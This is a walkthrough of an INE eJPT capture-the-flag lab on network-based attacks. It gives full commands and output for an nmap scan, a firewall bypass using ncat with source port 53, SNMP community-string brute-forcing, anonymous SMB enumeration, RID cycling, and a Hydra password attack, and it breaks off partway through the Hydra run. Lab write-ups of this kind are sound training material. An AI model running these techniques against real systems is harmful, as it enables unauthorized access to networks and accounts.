# Host & Network Penetration Testing: Network-Based Attacks CTF 1 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: Network-Based Attacks CTF 1 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — Network-Based Attacks |
| **Perimeter Target Host** | `target1.ine.local` (`192.182.208.3` / `192.226.202.3`) |
| **Internal Pivot Target** | `target2.ine.local` (`FILE02`) — Isolated Internal File Server |
| **Target Operating Systems** | Linux (Ubuntu Linux / OpenSSH 9.6p1 / Samba smbd 3.X–4.X / Net-SNMP) |
| **Status** | Completed in Lab Dashboard (All 6 of 6 Flags Captured & Visually Verified) |
| **Offensive Tooling** | `nmap`, `ncat`, `snmpwalk`, `smbclient`, `enum4linux`, `hydra`, `ssh`, Linux CLI |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Lab Objectives](#02-lab-objectives)
- [03. Environment & Network Topology](#03-environment--network-topology)
- [04. Target Information](#04-target-information)
- [05. Offensive Tooling](#05-offensive-tooling)
- [06. Engagement Methodology](#06-engagement-methodology)
- [07. Initial Reconnaissance & Full Port Scanning](#07-initial-reconnaissance--full-port-scanning)
- [08. Task 1 – Diagnostic Service Bypass via Source Port Manipulation (Flag 1)](#08-task-1--diagnostic-service-bypass-via-source-port-manipulation-flag-1)
- [09. Task 2 – SNMP Community Brute-Force & MIB Hierarchy Extraction (Flag 2)](#09-task-2--snmp-community-brute-force--mib-hierarchy-extraction-flag-2)
- [10. Task 3 – Unauthenticated SMB Enumeration & Public Staff Notices (Flag 3)](#10-task-3--unauthenticated-smb-enumeration--public-staff-notices-flag-3)
- [11. Task 4 – User SID Enumeration & SMB Password Dictionary Attack (Flag 4)](#11-task-4--user-sid-enumeration--smb-password-dictionary-attack-flag-4)
- [12. Task 5 – Perimeter Host Compromise & Internal Network Pivot (Flag 5)](#12-task-5--perimeter-host-compromise--internal-network-pivot-flag-5)
- [13. Task 6 – Authenticated Internal Database Share Compromise (Flag 6)](#13-task-6--authenticated-internal-database-share-compromise-flag-6)
- [14. Results and Verified Flags](#14-results-and-verified-flags)
- [15. Consolidated Vulnerability Findings](#15-consolidated-vulnerability-findings)
- [16. Security Lessons Learned](#16-security-lessons-learned)
- [17. Prioritized Remediation Roadmap](#17-prioritized-remediation-roadmap)
- [18. Evidence and Screenshot Index](#18-evidence-and-screenshot-index)
- [19. References](#19-references)

---

## 01. Lab Overview

This comprehensive laboratory forms an essential component of the **INE eJPT (Junior Penetration Tester)** curriculum under the **Host & Network Penetration Testing: Network-Based Attacks** domain. The assessment simulates a multi-tier, defense-in-depth enterprise infrastructure where network segmentation, packet filtering, management protocols, and multi-protocol file-sharing services govern inter-system communications.

The engagement requires the penetration tester to execute a structured, chained network penetration testing workflow:
1. **Network Filtering Analysis**: Interrogating an unusual high-port diagnostic daemon and evading rudimentary transport-layer firewall restrictions using source-port spoofing/manipulation.
2. **Management Protocol Interrogation**: Auditing the Simple Network Management Protocol (SNMP) attack surface, brute-forcing weak community strings, and querying custom Management Information Base (MIB) Object Identifiers (OIDs).
3. **Unauthenticated SMB Auditing**: Enumerating Samba network shares via anonymous null sessions and harvesting unencrypted operational staff guidance.
4. **Active User Enumeration & Credential Spraying**: Extracting valid local service accounts via Security Identifier (SID) RID cycling and executing online SMB dictionary attacks to breach restricted backup shares.
5. **Lateral Network Pivoting**: Leveraging compromised host-level credentials to establish an interactive SSH pivot into the perimeter host, bypassing network isolation to enumerate non-routable internal servers.
6. **Internal Service Exploitation**: Traversing internal guest-accessible dropboxes, harvesting plaintext database maintenance credentials, and exfiltrating restricted database assets.

### Target Environment Evidence

The screenshot below displays the completed INE challenge dashboard, confirming that all 6 out of 6 challenge flags were captured and verified.



---

## 02. Lab Objectives

The laboratory defines six progressive, evidence-backed penetration testing tasks:

1. **Task 1 — Diagnostic Service Token Retrieval (Flag 1):**
   - *"An ordinary scan of the perimeter host reveals little of use. A diagnostic service is listening, but it only responds to connections that present themselves as low-numbered, well-known traffic (like DNS) rather than a random high-numbered source port, anything else is turned away. Work out what source port the service expects your connection to come from, present your connection accordingly, and read the token it returns."*
2. **Task 2 — Management Layer Interrogation (Flag 2):**
   - *"Interrogate the host's management layer."*
   - Focus: Auditing UDP port 161, identifying active SNMP daemons, cracking weak community strings, and extracting hidden administrative flags from the MIB tree.
3. **Task 3 — Unauthenticated File Service Enumeration (Flag 3):**
   - *"Enumerate the host's file services without credentials."*
   - Focus: Connecting to perimeter SMB file shares anonymously, downloading public operational announcements, and recovering Flag 3.
4. **Task 4 — Restricted Share Authentication (Flag 4):**
   - *"Authenticate to the restricted share."*
   - Focus: Enumerating local user accounts, conducting an online dictionary attack against `svc_backup`, accessing the restricted `backup` share, and retrieving operational backup documentation containing Flag 4.
5. **Task 5 — Internal File Server Reachability & Compromise (Flag 5):**
   - *"Reach the internal file server."*
   - Focus: Utilizing compromised perimeter credentials to establish an interactive SSH session on `target1`, enumerating isolated internal target `target2.ine.local` (`FILE02`), and retrieving Flag 5 from an internal dropbox share.
6. **Task 6 — Restricted Database Share Exploitation (Flag 6):**
   - *"Break into the restricted database share."*
   - Focus: Leveraging harvested database maintenance credentials to authenticate against `//target2.ine.local/sql-backups` as `db_admin` and exfiltrating `db_export.txt` containing Flag 6.

---

## 03. Environment & Network Topology

### Engagement Architecture

The target architecture consists of an offensive Kali Linux workstation, a dual-homed perimeter gateway (`target1.ine.local`), and an isolated internal network segment hosting a dedicated file/database backup server (`target2.ine.local` / `FILE02`).

```text
+---------------------------------------------------------------------------------------------------+
|                                  ENGAGEMENT TOPOLOGY DIAGRAM                                      |
+---------------------------------------------------------------------------------------------------+
|                                                                                                   |
|                       +---------------------------------------------------+                       |
|                       |                Offensive Workstation              |                       |
|                       |               (Kali Linux / INE Host)             |                       |
|                       +---------------------------------------------------+                       |
|                                                 |                                                 |
|                                                 | Direct External Access                          |
|                                                 | (192.182.208.3 / 192.226.202.3)                 |
|                                                 v                                                 |
|                       +---------------------------------------------------+                       |
|                       |            target1.ine.local (Perimeter)          |                       |
|                       |           Ubuntu Linux / Workgroup: ASHCROFT      |                       |
|                       +---------------------------------------------------+                       |
|                       | - 22/tcp: OpenSSH 9.6p1 (Interactive Pivot Point) |                       |
|                       | - 139/445/tcp: Samba smbd 3.X-4.X (public/backup) |                       |
|                       | - 161/udp: Net-SNMP (Community: mngt)             |                       |
|                       | - 199/tcp: Linux SNMP Multiplexer (smux)          |                       |
|                       | - 13337/tcp: NETDIAG v2.1 (Filtered: Source P53)  |                       |
|                       +---------------------------------------------------+                       |
|                                                 |                                                 |
|                                                 | Isolated Internal Network                       |
|                                                 | (Non-Routable from Kali Workstation)            |
|                                                 v                                                 |
|                       +---------------------------------------------------+                       |
|                       |       target2.ine.local / FILE02 (Internal)       |                       |
|                       |             Isolated File & Database Server       |                       |
|                       +---------------------------------------------------+                       |
|                       | - 445/tcp: Internal SMB File Service              |                       |
|                       |   * Share 'dropbox' (Guest / Unauthenticated)     |                       |
|                       |   * Share 'sql-backups' (Restricted: db_admin)    |                       |
|                       |   * Share 'IPC$' (FILE02 Internal Files)          |                       |
|                       +---------------------------------------------------+                       |
|                                                                                                   |
+---------------------------------------------------------------------------------------------------+
```

---

## 04. Target Information

### Target Specifications

| Parameter | Perimeter System (`target1`) | Internal System (`target2`) |
| :--- | :--- | :--- |
| **Hostname** | `target1.ine.local` | `target2.ine.local` (`FILE02`) |
| **IP Addressing** | `192.182.208.3` / `192.226.202.3` | Internal Subnet (Pivot Accessible) |
| **Operating System** | Linux (Ubuntu Linux, OpenSSH 9.6p1) | Linux / Samba (SMB1 Disabled) |
| **Confirmed TCP Services** | SSH (22), NetBIOS-SSN (139), smux (199), SMB (445), NETDIAG (13337) | SMB (445), IPC$ |
| **Confirmed UDP Services** | SNMP (161/udp) | Internal Network Only |
| **Network Workgroup** | `ASHCROFT` | `ASHCROFT` |
| **Master Browser** | `FILE02` | `FILE02` |
| **Identified Shares** | `public`, `backup`, `IPC$` | `dropbox`, `sql-backups`, `IPC$` |
| **Compromised Accounts** | `svc_backup` (SMB/SSH Password: `[REDACTED]`) | `db_admin` (SMB Password: `[REDACTED]`) |

---

## 05. Offensive Tooling

The assessment utilized standard offensive security tooling native to Kali Linux:

- **Nmap (v7.94SVN)**: Deployed for full TCP port sweeps (`-p- -sV`), targeted UDP service fingerprinting (`-sU`), and automated NSE community string brute-forcing (`--script snmp-brute`).
- **Ncat (Nmap Suite)**: Utilized for TCP socket communication with custom client source-port specification (`-p 53`) to defeat transport-layer packet filtering.
- **Net-SNMP Suite (`snmpwalk`)**: Deployed for deep SNMP MIB enumeration, OID tree walking (`-On`), and administrative metadata harvesting using community string `mngt`.
- **Samba Client (`smbclient`)**: Interrogated target SMB services, listed shares under anonymous null sessions (`-N`), and connected to restricted shares using authenticated credentials (`-U`).
- **Enum4linux (v0.9.1)**: Executed comprehensive Samba enumeration, NetBIOS workgroup harvesting, and local user account discovery via SID/RID cycling.
- **THC Hydra (v9.5)**: Executed high-speed network dictionary attacks against SMB port 445 using standard Metasploit wordlists (`unix_passwords.txt`).
- **OpenSSH Client (`ssh`)**: Established an interactive command shell on `target1.ine.local` to enable operational pivoting into the isolated internal network segment.

---

## 06. Engagement Methodology

The engagement followed a structured penetration testing methodology designed for perimeter-to-internal network assessments:

```text
+---------------------------------------------------------------------------------------------------+
|                                 PROGRESSIVE ATTACK METHODOLOGY                                    |
+---------------------------------------------------------------------------------------------------+
|                                                                                                   |
|  [Phase 1: Perimeter Reconnaissance & Source Port Manipulation]                                   |
|   - Full TCP port sweep across 65,535 ports on target1.ine.local.                                  |
|   - Identify filtered diagnostic service NETDIAG on port 13337/tcp.                               |
|   - Evade packet filtering via DNS source port (ncat -p 53) -> Capture Flag 1.                    |
|                                         |                                                         |
|                                         v                                                         |
|  [Phase 2: Management Protocol Interrogation (SNMP)]                                              |
|   - Discover active SNMP daemon on UDP 161.                                                       |
|   - Brute-force community string via nmap snmp-brute -> Discovered 'mngt'.                        |
|   - Walk MIB tree (snmpwalk -v2c -c mngt) -> Capture Flag 2 (/etc/snmp/.flag2).                   |
|                                         |                                                         |
|                                         v                                                         |
|  [Phase 3: File Service Footprinting & Anonymous SMB Access]                                      |
|   - List SMB shares via null session (smbclient -L -N).                                           |
|   - Connect to public share (//target1/public) -> Download notice_to_staff.txt -> Capture Flag 3. |
|                                         |                                                         |
|                                         v                                                         |
|  [Phase 4: User RID Cycling & SMB Credential Brute-Force]                                         |
|   - Enumerate local Samba user accounts via enum4linux SID cycling -> Found 'svc_backup'.         |
|   - Execute Hydra dictionary attack against SMB -> Cracked svc_backup:[REDACTED].                 |
|   - Access restricted share //target1/backup -> Recover backup_notes.txt -> Capture Flag 4.       |
|                                         |                                                         |
|                                         v                                                         |
|  [Phase 5: Perimeter Host Compromise & Internal Pivoting]                                         |
|   - Authenticate via SSH as svc_backup to target1.ine.local -> Establish pivot session.           |
|   - Enumerate internal server target2.ine.local (FILE02).                                         |
|   - Connect to guest share //target2/dropbox -> Recover README.txt -> Capture Flag 5.             |
|                                         |                                                         |
|                                         v                                                         |
|  [Phase 6: Authenticated Internal Database Asset Exfiltration]                                    |
|   - Harvest plaintext db_admin:[REDACTED] credentials from README.txt.                            |
|   - Authenticate to restricted share //target2/sql-backups as db_admin.                           |
|   - Exfiltrate db_export.txt -> Capture Flag 6.                                                   |
|                                                                                                   |
+---------------------------------------------------------------------------------------------------+
```

---

## 07. Initial Reconnaissance & Full Port Scanning

### Objective
Identify all active TCP network services running across the perimeter host `target1.ine.local` (`192.182.208.3`) to map its perimeter attack surface.

### Step: Full TCP Port Sweep with Version Detection

**Command:**
```bash
nmap -p- -sV 192.182.208.3
```

**Explanation:**
- `-p-`: Scans all 65,535 TCP ports to ensure no non-standard or obfuscated listening daemons are overlooked.
- `-sV`: Probes discovered open ports to determine service banners, application versions, and underlying operating system signatures.

**Terminal Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-21 18:23 IST
Nmap scan report for target1.ine.local (192.182.208.3)
Host is up (0.000023s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: ASHCROFT)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: ASHCROFT)
13337/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port13337-TCP:V=7.94SVN%I=7%D=11/21%Time=6B019446%P=x86_64-pc-linux-gnu
SF:%r(NULL,46,"NETDIAG:\x20access\x20denied\x20(diagnostic\x20channel\x20
SF:expects\x20mgmt\x20source\x20port)\r\n")%r(GenericLines,46,"NETDIAG:\x
SF:20access\x20denied\x20(diagnostic\x20channel\x20expects\x20mgmt\x20sou
```



**Analysis:**
1. **Host Infrastructure**: The host runs Ubuntu Linux with OpenSSH 9.6p1 and Samba file services operating under NetBIOS workgroup `ASHCROFT`.
2. **SNMP Multiplexer (Port 199)**: The presence of port 199 (`smux`) indicates an underlying SNMP management infrastructure.
3. **Filtered Diagnostic Service (Port 13337)**: Port 13337 returned raw banner data:
   `NETDIAG: access denied (diagnostic channel expects mgmt source port)`
   The service actively enforces source-port filtering, rejecting connections originating from standard ephemeral client ports.

---

## 08. Task 1 – Diagnostic Service Bypass via Source Port Manipulation (Flag 1)

### Objective
*"An ordinary scan of the perimeter host reveals little of use. A diagnostic service is listening, but it only responds to connections that present themselves as low-numbered, well-known traffic (like DNS) rather than a random high-numbered source port, anything else is turned away. Work out what source port the service expects your connection to come from, present your connection accordingly, and read the token it returns."*

### Technical Context: Source Port Filtering Flaws
Many legacy packet filtering rules and stateful firewalls permit incoming traffic if the source port matches a trusted protocol (such as DNS port 53 or NTP port 123) under the flawed assumption that inbound packets originating from port 53 represent legitimate incoming server responses. When application daemons or firewall rules perform naive source-port verification without cryptographically verifying session state, an attacker can specify a low-numbered source port to bypass the filter entirely.

### Step: Socket Connection via Privileged Source Port 53

**Command:**
```bash
ncat -p 53 192.182.208.3 13337
```

**Explanation:**
- `-p 53`: Instructs `ncat` to bind the local client socket to source port 53 (standard DNS).
- `192.182.208.3 13337`: Target host and port hosting the `NETDIAG` service.

**Terminal Output:**
```text
ASHCROFT-LOGISTICS NETDIAG v2.1
---------------------------------
link: UP   mtu: 1500   mgmt: SNMP(v1) enabled on this host
diagnostic token: Flag1_36b0445d522a4016b2a9ffb549134267
```



**Analysis & Intelligence Harvested:**
1. **Flag 1 Captured**: The diagnostic daemon released `Flag1_36b0445d522a4016b2a9ffb549134267`.
2. **Critical Lateral Clue**: The banner explicitly disclosed:
   `mgmt: SNMP(v1) enabled on this host`
   This confirmed that the SNMP management daemon is operational and specifically accessible via SNMPv1/v2c.

```text
Flag 1 Location: NETDIAG Daemon (TCP 13337 via Source Port 53)
Flag 1 Value:    Flag1_36b0445d522a4016b2a9ffb549134267
Status:          Content extracted and visually verified.
```

---

## 09. Task 2 – SNMP Community Brute-Force & MIB Hierarchy Extraction (Flag 2)

### Objective
*"Interrogate the host's management layer."*

### Technical Context: SNMP Community Strings & MIB Exposure
SNMP version 1 and version 2c rely entirely on unencrypted "community strings" as cleartext passwords. If administrators utilize weak or default community strings (such as `public`, `private`, or abbreviated department names like `mngt`), an attacker can query the Management Information Base (MIB) tree to extract system architectures, hardware models, active network connections, process tables, and custom administrative parameters.

### Step 1: SNMP UDP Service Fingerprinting & Community Brute-Force

**Commands:**
```bash
nmap -sU -sV -p 161 target1.ine.local
nmap -sU -p 161 --script snmp-brute target1.ine.local
```

**Explanation:**
- `-sU`: Performs UDP scanning against port 161.
- `--script snmp-brute`: Executes Nmap's automated dictionary module to test common community strings.

**Terminal Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-21 19:29 IST
Nmap scan report for target1.ine.local (192.226.202.3)
Host is up (0.000092s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    net-snmp; net-snmp SNMPv3 server
MAC Address: 02:42:C0:E2:CA:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-21 19:29 IST
Nmap scan report for target1.ine.local (192.226.202.3)
Host is up (0.000084s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute:
|_  mngt - Valid credentials
MAC Address: 02:42:C0:E2:CA:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds

snmpwalk -v2c -c mngt target1.ine.local > snmp.txt
```



**Analysis:**
The brute-force attack successfully identified a valid community string: `mngt`. A full SNMP tree dump was written to `snmp.txt`.

### Step 2: Querying Numeric OID Tree for Embedded Flag Material

**Command:**
```bash
snmpwalk -v2c -c mngt -On target1.ine.local .1 | grep -i flag
```

**Explanation:**
- `-v2c`: Specifies SNMP version 2c.
- `-c mngt`: Authenticates using the cracked community string.
- `-On`: Displays all returned Object Identifiers in numeric dot-notation.
- `.1`: Starts walking from the root ISO object.
- `grep -i flag`: Filters output lines matching the string "flag".

**Terminal Output:**
```text
.1.3.6.1.4.1.2021.100.6.0 = STRING: " '--build=x86_64-linux-gnu' '--includedir=${prefix}/include' '--mandir=${prefix}/share/man' '--infodir=${prefix}/share/info' '--localstatedir=/var' '--disable-option-checking' '--disable-silent-rules' '--libdir=${prefix}/lib/x86_64-linux-gnu' '--runstatedir=/run' '--disable-maintainer-mode' '--disable-dependency-tracking' '--prefix=/usr' '--sysconfdir=/etc' '--mandir=/usr/share/man' '--with-persistent-directory=/var/lib/snmp' '--enable-ucd-snmp-compatibility' '--with-cflags=-g -O2 -fno-omit-frame-pointer -mno-omit-leaf-frame-pointer -ffile-prefix-map=/build/net-snmp-qAGDzQ/net-snmp-5.9.4+dfsg=. -flto=auto -ffat-lto-objects -fstack-protector-strong -fstack-clash-protection -Wformat -Werror=format-security -fcf-protection -fdebug-prefix-map=/build/net-snmp-qAGDzQ/net-snmp-5.9.4+dfsg=/usr/src/net-snmp-5.9.4+dfsg-1.1ubuntu3.2 -DNETSNMP_USE_INLINE' '--with-ldflags=-Wl,-Bsymbolic-functions -flto=auto -ffat-lto-objects -Wl,-z,relro -Wl,-z,now' '--with-perl-modules=INSTALLDIRS=vendor' '--enable-as-needed' '--with-log"
.1.3.6.1.4.1.8072.1.3.2.2.1.3.4.100.105.97.103 = STRING: "/etc/snmp/.flag2"
.1.3.6.1.4.1.8072.1.3.2.3.1.1.4.100.105.97.103 = STRING: "Flag2_d8644705c2b44db4afd72e233835742a"
.1.3.6.1.4.1.8072.1.3.2.3.1.2.4.100.105.97.103 = STRING: "Flag2_d8644705c2b44db4afd72e233835742a"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.4.100.105.97.103.1 = STRING: "Flag2_d8644705c2b44db4afd72e233835742a"
```



**Analysis:**
The query revealed that Net-SNMP was configured with custom `extend` directives executing or tracking `/etc/snmp/.flag2`, releasing `Flag2_d8644705c2b44db4afd72e233835742a`.

```text
Flag 2 Location: SNMP MIB Tree (.1.3.6.1.4.1.8072.1.3.2.3.1.1.4.100.105.97.103)
Flag 2 Value:    Flag2_d8644705c2b44db4afd72e233835742a
Status:          Content extracted and visually verified.
```

---

## 10. Task 3 – Unauthenticated SMB Enumeration & Public Staff Notices (Flag 3)

### Objective
*"Enumerate the host's file services without credentials."*

### Step 1: Anonymous SMB Share Enumeration

**Command:**
```bash
smbclient -L target1.ine.local -N
```

**Explanation:**
- `-L target1.ine.local`: Requests a list of shares exported by the host.
- `-N`: Suppresses password prompting, executing an anonymous null-session request.

**Terminal Output:**
```text
        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      Public Staff Notices
        backup          Disk      Backup Operators Only
        IPC$            IPC       IPC Service (BR-EDGE01 File Services)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        ASHCROFT             FILE02
```



**Analysis:**
The Samba file server exposes two shares: `public` and `backup`. The master browser for workgroup `ASHCROFT` is identified as internal server `FILE02`.

### Step 2: Anonymous Public Share Access & Flag 3 Extraction

**Commands:**
```bash
smbclient -N //target1.ine.local/public
# Inside SMB Shell:
ls
get notice_to_staff.txt
# From Local Shell:
cat notice_to_staff.txt
```

**Terminal Output:**
```text
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 21 18:53:16 2026
  ..                                  D        0  Sat Nov 21 18:53:16 2026
  notice_to_staff.txt                 N      325  Sat Nov 21 18:53:16 2026

                1981311780 blocks of size 1024. 308931904 blocks available
smb: \> get notice_to_staff.txt
getting file \notice_to_staff.txt of size 325 as notice_to_staff.txt (158.7 KiloBytes/sec) (average 158.7 KiloBytes/sec)
smb: \> ^Z
[1]+  Stopped                 smbclient -N //target1.ine.local/public

┌──(root💀INE)-[~]
└─# cat notice_to_staff.txt
ASHCROFT LOGISTICS - STAFF NOTICE (PUBLIC)
===========================================
Reminder: the general 'public' share is world-readable. Do NOT place
sensitive files here. Backup Operators: use the restricted 'backup'
share (credentialed access only).

Perimeter self-check token: Flag3_5ee56c901a7f4754bc7d4f2ab3a7a927
```



**Analysis & Intelligence Harvested:**
1. **Flag 3 Captured**: `Flag3_5ee56c901a7f4754bc7d4f2ab3a7a927`.
2. **Next Attack Vector Identified**: The notice specifies that the `backup` share is restricted to "Backup Operators" requiring valid credentials.

```text
Flag 3 Location: //target1.ine.local/public/notice_to_staff.txt
Flag 3 Value:    Flag3_5ee56c901a7f4754bc7d4f2ab3a7a927
Status:          Content extracted and visually verified.
```

---

## 11. Task 4 – User SID Enumeration & SMB Password Dictionary Attack (Flag 4)

### Objective
*"Authenticate to the restricted share."*

### Step 1: User RID Cycling via Enum4linux

**Command:**
```bash
enum4linux -a target1.ine.local
```

**Terminal Output:**
```text
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Nov 21 19:42:12 2026

 ========================== ( Target Information ) ==========================
Target ........... target1.ine.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ================= ( Enumerating Workgroup/Domain on target1.ine.local ) =================
[+] Got domain/workgroup name: ASHCROFT
```



```text
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\svc_netdiag (Local User)
S-1-22-1-1002 Unix User\smbpublic (Local User)
S-1-22-1-1003 Unix User\svc_backup (Local User)
```



**Analysis:**
Enum4linux cycled local SIDs under `S-1-22-1` and discovered four local user accounts:
- `ubuntu` (RID 1000)
- `svc_netdiag` (RID 1001)
- `smbpublic` (RID 1002)
- `svc_backup` (RID 1003)

Account `svc_backup` corresponds to the "Backup Operators" role required for the restricted `backup` share.

### Step 2: Online SMB Password Brute-Force against `svc_backup`

**Command:**
```bash
hydra -l svc_backup -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -t 1 smb://target1.ine.local
```

**Explanation:**
- `-l svc_backup`: Tests target username `svc_backup`.
- `-P .../unix_passwords.txt`: Tests 1,009 common UNIX passwords from the Metasploit framework wordlist.
- `-t 1`: Enforces single-threaded execution to prevent rate-limit connection throttling.

**Terminal Output:**
```text
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations...

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-21 19:52:10
